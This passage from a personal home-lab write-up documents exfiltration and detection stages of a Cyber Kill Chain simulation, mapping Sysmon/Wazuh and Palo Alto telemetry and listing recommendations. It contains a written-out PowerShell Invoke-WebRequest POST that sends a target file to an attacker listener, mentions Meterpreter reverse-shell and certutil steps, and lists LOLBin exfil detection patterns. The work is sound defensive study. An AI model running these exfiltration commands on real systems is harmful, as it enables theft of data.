The Meterpreter `download` above worked, but it barely gave Wazuh anything to work with — it's a read inside an already-established session, so there's no new process, no new network flow, and no file-integrity event for Sysmon or the SIEM to hang a detection on. To actually put the detection side of Stage 7 to the test — rather than just proving the attacker action was possible — a second technique was tried that leaves normal, expected telemetry behind: a plain HTTP listener was stood up on Kali (port 80) and the target was driven to `POST` a file to it directly from a PowerShell shell, a technique that would just as easily work from any living-off-the-land shell access, not just a Meterpreter session.

**Command run on the target:**

```powershell
powershell -Command "Invoke-WebRequest -Uri 'http://192.168.120.13' -Method Post -InFile 'C:\Users\Public\Documents\test exfil.txt'"
```

**Kali side (listener + captured content):**



```
(kali㉿kali)-[~]
$ ls
Desktop  Downloads  'New Text Document.txt'  Public  'test exfil.txt'
Documents  Music  Pictures  Templates  thinclient_drives

$ cat 'test exfil.txt'

POST / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/...
Content-Type: application/x-www-form-urlencoded
Host: 192.168.120.13
Content-Length: 101
Expect: 100-continue
Connection: Keep-Alive

dadaknga
angwghawg
angaihhag
]angha]ga
ajgiahgaw
ajhgihag
a
ajgahga
ahgahg]awhghaweigheaga
```

The listener output is messy — repeated `InvalidOperation`/protocol-violation errors appear before a connection finally lands cleanly — but the last attempt succeeds: the raw POST body (the target file's contents, garbled placeholder text in this test) is captured intact on the Kali side and written out as `test exfil.txt`, confirming successful exfiltration over plain HTTP. The retries are consistent with a bare Netcat/simple HTTP listener that doesn't gracefully keep a socket open across `Expect: 100-continue`, rather than any failure of the technique itself.

**Detection — this one *is* visible, unlike the Meterpreter `download`:**



Filtering Wazuh's Discover view on `data.win.system.providerName: Microsoft-Windows-Sysmon` and the `Invoke-WebRequest` command line turns up **4 matching Sysmon Event ID 1 (Process Creation)** hits across several minutes, each with the full command line logged verbatim, including the destination IP (`192.168.120.13`), the `-Method Post`, and the source file path (`C:\Users\Public\Documents\test exfil.txt`).

| Field | Value |
|---|---|
| Sysmon Event ID | `1` (Process Creation) |
| Provider | `Microsoft-Windows-Sysmon` |
| Process | `powershell.exe` |
| Command line (captured in full) | `powershell -Command \"Invoke-WebRequest -Uri 'http://192.168.120.13' -Method Post -InFile 'C:\Users\Public\Documents\test exfil.txt'\"` |
| Hits (24h window) | 4 |

**Why this path is more detectable than the in-session `download`:**

- **Process creation is unavoidable telemetry.** Spawning `powershell.exe` with an explicit command line is exactly what Sysmon Event ID 1 exists to catch — there's no way to run this technique without generating that event, unlike a Meterpreter API call that never touches a new process.
- **The full command line — including destination IP and source file path — is logged in plaintext**, making this a high-fidelity detection: a single correlation rule matching `Invoke-WebRequest`/`Invoke-RestMethod`/`curl`/`certutil` command lines with `-Method Post` or `-OutFile`/`-InFile` pointed at user document paths would catch this class of exfil outright.
- **Network-side, this is a brand-new flow** to a previously-unseen destination on port 80 — unlike the Stage 6/7a Meterpreter path, it doesn't hide inside an already-permitted session, so this should also appear as a distinct new session in the Palo Alto traffic log under the `Trusted-Untrusted` any/any rule.

This makes Stage 7b a useful contrast case for the write-up: the same *objective* (get a file off the target) produced two very different detection outcomes depending on *how* it was carried out — a lesson worth carrying into the recommendations below.

---

## 9. Detection Coverage & Mapping (Full Chain)

| Kill Chain Stage | Attacker Action | Perimeter Evidence | SIEM / Host Detection |
|---|---|---|---|
| **1. Reconnaissance** | Full port sweep, service/version enumeration, RDP-specific enumeration from `192.168.120.13` against `192.168.120.5:3389` | Palo Alto `TRAFFIC` logs (`allow`, multiple short sessions, `tcp-rst-from-client`) | Wazuh rule `100101`, level 12, MITRE `T1595.001`, mail alert — **fired** |
| **2. Weaponization** | `msfvenom` payload build on Kali | None (attacker-owned infrastructure) | **Blind** — no agent on Kali; expected and out of scope for network/host telemetry |
| **3–4. Delivery / Exploitation** | Payload copied over RDP session; alternative `Invoke-WebRequest` / `certutil` pulls tested | Requires AV + Vulnerability Protection profiles on the security rule | **Gap** — profiles constrained by unlicensed PA-VM |
| **5. Installation** | `start %TEMP%\updater.exe` | — | Sysmon/Wazuh file-modified event, `rule.id 550` |
| **6. Command & Control** | Meterpreter reverse-TCP callback to `192.168.120.13:4444` | Outbound session permitted under `Trusted-Untrusted` any/any | Sysmon/Wazuh file-added event, `rule.id 554`; session visible in Palo Alto traffic log |
| **7a. Actions on Objectives (Exfil via Meterpreter)** | `download` of a Desktop file over the live Meterpreter session | Same session as Stage 6 — no new flow | **Gap** — no FIM/EDR read-auditing configured; relies on session-anomaly detection, not implemented in this lab iteration |
| **7b. Actions on Objectives (Exfil via HTTP POST)** | PowerShell `Invoke-WebRequest -Method Post` to a Kali-side listener on port 80 | New outbound session to a previously-unseen destination, under `Trusted-Untrusted` any/any | **Detected** — Sysmon Event ID 1 (Process Creation), full command line captured, 4 hits in Wazuh |

---

## 10. Findings & Recommendations (Consolidated)

1. **Review the NAT/allow rule.** Confirm RDP exposure to the Untrusted zone on `192.168.120.5` is intentional and business-justified; if not, restrict or remove it.
2. **Enforce NLA / disable legacy RDP security.** Stage 1 confirmed the target currently only advertises modern security layers (CredSSP/NLA, RDSTLS, SSL) — maintain this rather than allowing fallback to "Standard RDP Security."
3. **Correlate recon with host-side telemetry.** The fully-classified `ms-rdp` session is the highest-value lead in Stage 1 — cross-reference the target's Windows Security event log (Event IDs `4624`/`4625`) for the corresponding timestamp window to rule out any successful authentication attempt.
4. **Consider source-based blocking / rate limiting** if a recon source recurs, rather than relying on detection alone.
5. **Tune for recurrence, not just volume.** Validate the correlation rule also catches slower, "low and slow" scan variants in a future iteration.
6. **Review "any/any" outbound policy (`Trusted-Untrusted`).** This single rule is what makes the entire Stage 2–7 reverse-shell chain possible — outbound egress control is the highest-leverage fix in this whole simulation.
7. **License or replace AV / Vulnerability Protection on the perimeter firewall.** Delivery-stage detection is currently a documented gap purely due to PA-VM licensing, not a design limitation.
8. **Layer proactive monitoring and defense-in-depth** rather than relying on any single control (firewall profiles, SIEM rules, or host telemetry alone).
9. **Keep native OS defenses active** — Microsoft Defender and host firewall — as a baseline layer even where EDR/SIEM exists.
10. **Expand Sysmon/FIM coverage to include file-read auditing** on sensitive user directories, not just create/modify events — the Stage 7 `download` would evade FIM baselines built only around file-integrity events.
11. **Treat exfiltration-over-C2 as the default assumption, not the exception.** Anomaly detection on already-established long-lived sessions (byte volume, duration, timing) is the more realistic control than a distinct "exfil" signature.
12. **Build a Sysmon/Wazuh correlation rule for LOLBin-style exfil command lines.** Stage 7b showed that `Invoke-WebRequest`/`Invoke-RestMethod`/`certutil` invocations with `-Method Post`, `-OutFile`, or `-InFile` pointed at user document paths are caught cleanly and cheaply via Event ID 1 process-creation logging — this is a high-value, low-effort rule to add given it already fired 4 times in this test with zero tuning.
13. **The two Stage 7 techniques bracket the real-world detection spectrum.** In-session `download` over an already-established Meterpreter channel produced no host or distinguishable network telemetry; a fresh outbound PowerShell process to a new destination produced high-fidelity, plaintext-command-line telemetry. Real attacker tradecraft sits somewhere between these — reinforcing that command-line/process telemetry and C2-session anomaly detection are complementary, not substitutes for each other.
14. **End-to-end validation achieved.** This lab confirms a single unremediated exposure (RDP + permissive outbound policy) is sufficient to walk the full seven-stage chain — recon through exfiltration — without requiring any additional vulnerability.

---

## 11. Tools Used

| Tool | Role |
|---|---|
| [Nmap](https://nmap.org/) | Host/port discovery, service & version detection, NSE scripting (`rdp-enum-encryption`) |
| Kali Linux | Attacker platform |
| Metasploit Framework (`msfvenom`, `msfconsole`) | Payload generation, listener/handler, Meterpreter session, file exfiltration |
| `xfreerdp` | RDP client used for delivery over the exposed session |
| Palo Alto (PA-VM) | Perimeter firewall / policy enforcement / traffic logging |
| [Wazuh](https://wazuh.com/) | SIEM — log ingestion, custom decoding, correlation rules, alerting |
| Sysmon | Host-level telemetry on the Windows target |

---

## 12. Files in This Directory

```
Cyberkill-Chain-/
├── README.md
├── methodology.md              ← this file (Stages 1–7, consolidated)
├── 01_lab_topology.png
├── 02_attack_flow.png                  (Palo Alto security rulebase)
├── 03_nmap_full_port_scan.png
├── 04_nmap_service_version_scan.png
├── 05_nmap_rdp_enum_encryption.png
├── 06_wazuh_decoder_rule.png            (PA traffic log, filtered)
├── 07_wazuh_dashboard_alert.png         (Wazuh custom rules XML)
├── 08_alert_json_view1.png              (raw alerts.json grep)
├── 09_alert_json_view2.png              (Wazuh Discover, parsed fields)
├── 10_stage7_exfil_download.png
├── 11_stage7b_wazuh_sysmon_detection.png
└── 12_stage7b_http_post_exfil.png
```

---

*This document is part of an ongoing Cyber Kill Chain simulation series built and documented in a personal home lab (EVE-NG under VMware Workstation on a personal laptop), for portfolio and learning purposes. All activity was performed in an isolated, self-hosted lab environment against systems owned and controlled by the author. Nothing here targets third-party infrastructure. Windows Defender and the Windows Firewall were disabled on the target VM to isolate and showcase the kill-chain stages and the network/SIEM detection pipeline — not to demonstrate evasion of endpoint protection.*
